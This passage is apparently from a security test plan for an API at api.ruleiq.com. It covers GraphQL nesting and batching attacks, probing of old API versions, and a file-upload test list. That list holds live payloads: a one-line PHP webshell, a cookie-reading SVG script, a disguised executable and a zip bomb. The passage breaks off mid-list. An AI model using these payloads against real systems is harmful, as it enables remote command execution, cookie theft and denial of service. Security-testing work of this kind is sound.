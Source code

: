 ```graphql
              author {
                # ... repeat 100 levels
              }
            }
          }
        }
      }
    }
  }
}

# Batch query attack
query BatchAttack {
  user1: user(id: 1) { ...UserInfo }
  user2: user(id: 2) { ...UserInfo }
  # ... repeat 1000 times
}
```

### 5.3 API Versioning Exploitation

```python
# Test deprecated API versions for vulnerabilities
api_versions = ["v1", "v2", "v3", "beta", "internal", "admin", "legacy"]

for version in api_versions:
    base_url = f"https://api.ruleiq.com/{version}"
    
    # Check if old versions are accessible
    response = requests.get(f"{base_url}/users")
    if response.status_code != 404:
        print(f"Old API version accessible: {version}")
        
        # Test for missing security patches
        test_old_vulnerabilities(base_url)
```

---

## 6. File Upload Attack Scenarios

### 6.1 Malicious File Upload

```python
def test_malicious_file_upload():
    """Test file upload security"""
    
    test_files = [
        # PHP webshell
        ("shell.php", b"<?php system($_GET['cmd']); ?>", "application/x-php"),
        
        # Disguised executable
        ("document.pdf.exe", open("malware.exe", "rb").read(), "application/pdf"),
        
        # SVG with JavaScript
        ("image.svg", b'<svg onload="alert(document.cookie)">', "image/svg+xml"),
        
        # Zip bomb
        ("bomb.zip", create_zip_bomb(), "application/zip"),
        
        # Polyglot file (valid PDF + valid JavaScript)
        ("polyglot.pdf", create_polyglot_file(), "application/pdf"),
        
        # Path traversal in filename
```
